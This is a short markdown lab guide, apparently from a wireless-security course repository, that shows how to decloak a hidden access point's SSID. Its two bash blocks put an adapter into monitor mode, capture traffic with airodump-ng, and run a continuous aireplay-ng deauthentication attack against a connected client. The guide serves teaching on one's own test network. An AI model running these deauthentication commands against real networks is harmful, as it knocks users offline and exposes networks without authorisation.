


# Hidden Network

Demonstrate how to decloak a hidden AP's SSID

* Run [setup](../setup.md) first
* Two terminals are needed
* One client needs to be associated
* Configure AP to not broadcast its SSID

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE
```

* The length shows 0



* Sometimes the SSID will appear before even before doing a deauthentication attack. No need to continue if that is the case.

```bash
# [Terminal Two]
# Run the deauthentication attack
sudo aireplay-ng --deauth 0 -a $BSSID -c $CLIENT $INTERFACE
```

* Observe that the SSID is now provided
* The AUTH value appears too



## Reference

[Hidden](https://www.youtube.com/watch?v=fCa4rYxECRs&ab_channel=learningthing)
